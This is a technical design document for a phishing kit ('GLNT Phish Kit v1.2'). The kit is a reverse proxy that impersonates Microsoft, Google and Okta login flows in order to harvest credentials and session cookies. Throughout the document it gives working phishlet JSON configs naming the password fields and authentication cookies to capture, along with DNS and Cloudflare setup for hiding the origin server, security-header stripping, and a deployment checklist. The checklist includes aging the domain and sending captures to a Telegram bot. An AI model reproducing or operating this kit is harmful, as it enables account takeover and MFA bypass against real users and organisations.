

# Multi-Host Phishlet Domain Architecture

**GLNT Phish Kit v1.2 | June 2026**

---

## Overview

The multi-host phishlet infrastructure allows a single phishlet to proxy multiple upstream identity providers. This is essential for Microsoft authentication, where the login flow redirects across multiple domains — `login.live.com` for personal accounts, `login.microsoftonline.com` for organization accounts, and `office.com` for session landing.

Previously, each upstream host required its own phishlet and subdomain. With multi-host support, one phishlet handles the entire Microsoft authentication ecosystem through a single proxy subdomain.

---

## Architecture

### Phishlet Routing

The proxy server (`proxy-server/main.go`) uses a `_s` cookie to track the upstream target URL. When a victim arrives at the proxy:

1. **No `_s` cookie** — The bootloader HTML is served. JavaScript decrypts the URL fragment and sets the `_s` cookie with the encoded upstream URL.
2. **With `_s` cookie** — The proxy decodes the value, matches a phishlet by upstream hostname, and reverse-proxies the request to the real identity provider.

### Phishlet Matching (`phishlet.go`)

The `matchPhishlet()` function checks the request's upstream URL against:
- Each phishlet's primary `Upstream` host
- Each phishlet's `UpstreamHosts` array (alternative hosts)

The Microsoft Personal phishlet has:

| Field | Value |
|-------|-------|
| `upstream` | `https://login.live.com` |
| `upstream_hosts` | `["https://login.microsoftonline.com"]` |

This means a request targeting either `login.live.com` or `login.microsoftonline.com` matches the `microsoft-personal` phishlet. Redirect hops between these hosts during the auth flow are correctly proxied because `rewriteResponse()` and `rewriteBody()` rewrite all upstream host references (via `allUpstreamHosts()`).

---

## Domain Setup

### DNS Configuration

For a deployment on `phish-ops.cc`:

| Subdomain | Phishlet | Upstream(s) | Purpose |
|-----------|----------|-------------|---------|
| `auth.phish-ops.cc` | microsoft-personal | login.live.com, login.microsoftonline.com | All Microsoft accounts (personal + org) |
| `accounts.phish-ops.cc` | google | accounts.google.com | Google Workspace |
| `idp.phish-ops.cc` | okta | *.okta.com | Okta SSO |

Only 3 subdomains needed for 4+ upstream identity providers. This is the key reduction from multi-host support — without it, Microsoft would require 2 separate subdomains (one for live.com, one for microsoftonline.com).

### DNS Records

```
auth.phish-ops.cc      A     <EC2_INSTANCE_IP>
accounts.phish-ops.cc  A     <EC2_INSTANCE_IP>
idp.phish-ops.cc       A     <EC2_INSTANCE_IP>
```

All records point to the same EC2 instance running the proxy server.

### Cloudflare Worker

The CDN worker (`cdn-config/`) provides TLS termination, origin IP hiding, and bot blocking at the edge:

```
Victim → Cloudflare (TLS, bot check) → EC2:9091 (plain HTTP proxy)
```

The worker must be configured to route all three subdomains to the same backend.

---

## Phishlet Configuration

### microsoft-personal.json

```json
{
  "name": "microsoft-personal",
  "label": "Microsoft Personal",
  "upstream": "https://login.live.com",
  "hostname": "auth.phish-ops.cc",
  "upstream_hosts": ["https://login.microsoftonline.com"],
  "proxy_paths": ["/", "/oauth20_authorize.srf", "/ppsecure/", "/login.srf"],
  "credential_fields": {
    "username": ["loginfmt", "login", "email", "username"],
    "password": ["passwd", "password", "Password", "secret"]
  },
  "session_cookies": [
    "MSPAuth", "MSPRequ", "MSPOK",
    "ESTSAUTH", "ESTSAUTHPERSISTENT",
    "ESTSAUTHLIGHT", "SignInStateCookie"
  ]
}
```

### microsoft.json (organization-only, kept for separate campaigns)

```json
{
  "name": "microsoft",
  "label": "Microsoft 365",
  "upstream": "https://login.microsoftonline.com",
  "hostname": "auth.phish-ops.cc",
  "proxy_paths": ["/", "/common/", "/organizations/", "/consumers/", "/kmsi", "/login", "/SAS/", "/federation/"],
  "session_cookies": ["ESTSAUTH", "ESTSAUTHPERSISTENT", "ESTSAUTHLIGHT", "SignInStateCookie"]
}
```

---

## Request Flow

### Microsoft Personal Account Login



### Body and Location Rewriting

The proxy rewrites all occurrences of upstream hostnames in:
- **Response bodies** (HTML, JavaScript, CSS, JSON) — `rewriteBody()` iterates `allUpstreamHosts()`
- **Response headers** (Location, Set-Cookie domain) — `rewriteResponse()` covers all hosts
- **Security headers** (CSP, XFO, HSTS) — stripped per phishlet config

This ensures the victim's browser always routes requests back through the proxy, regardless of which upstream host the identity provider redirects to.

---

## Deployment Checklist

1. **Register domain** — `phish-ops.cc` (aged 2-3 weeks)
2. **Configure DNS** — 3 A records pointing to EC2 instance
3. **Update phishlet hostnames** — Set `hostname` field in each JSON config
4. **Deploy Cloudflare Worker** — Update `wrangler.toml` with new domain
5. **Build proxy** — `cd proxy-server && go build -o proxy-srv .`
6. **Start proxy** — `TELEGRAM_BOT_TOKEN="..." TELEGRAM_CHAT_ID="..." ./proxy-srv`
7. **Generate test link** — `cd payload-generator && go run . --key <key> --email test@company.com ...`
8. **Verify** — Test both personal and org Microsoft account flows

---

## Current Phishlet Inventory

| Phishlet | Upstream | Proxy Paths | Session Cookies |
|----------|----------|-------------|-----------------|
| microsoft-personal | login.live.com + login.microsoftonline.com | /, /oauth20_authorize.srf, /ppsecure/, /login.srf | MSPAuth, MSPRequ, MSPOK, ESTSAUTH*, SignInStateCookie |
| microsoft | login.microsoftonline.com | /, /common/, /organizations/, /consumers/, /kmsi, /login, /SAS/, /federation/ | ESTSAUTH*, SignInStateCookie |
| google | accounts.google.com | /, /signin/, /v3/signin/, /ServiceLogin, /AccountChooser | SID, HSID, SSID, APISID, SAPISID, NID |
| okta | okta.com (wildcard) | /, /login/, /signin/, /sso/, /api/v1/authn, /oauth2/ | DT, JSESSIONID, sid |

---

## Summary

The multi-host phishlet infrastructure reduces required subdomains from 4+ to 3 by allowing a single phishlet to handle Microsoft's multi-domain authentication flow. The `UpstreamHosts` field in the `Phishlet` struct enables automatic matching and rewriting across all hosts in the auth chain, while the `allUpstreamHosts()` helper ensures consistent body and header rewriting.
